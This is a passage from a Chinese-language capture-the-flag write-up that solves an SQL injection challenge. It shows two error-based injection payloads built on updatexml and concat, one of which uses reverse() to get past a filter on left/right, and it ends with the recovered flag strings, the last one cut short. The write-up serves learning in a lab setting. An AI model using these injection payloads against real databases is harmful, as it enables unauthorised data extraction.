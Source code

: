 ![image-20221223123535532](challenge.assets/image-20221223123535532.png)

看来有些无用的填充，要用到正则了

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#
```

![image-20221223123636585](challenge.assets/image-20221223123636585.png)

left和right被过滤了，可以用**reverse**来倒序

```sql
xl"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#
```

![image-20221223124000019](challenge.assets/image-20221223124000019.png)

用python转一下，然后拼一下得到flag

```
flag{28fefbfe-67e9-48b3-8ea0-6d81295761c4}
flag{3d63b193-8a81-4b84-a57d-21e1fde7
```
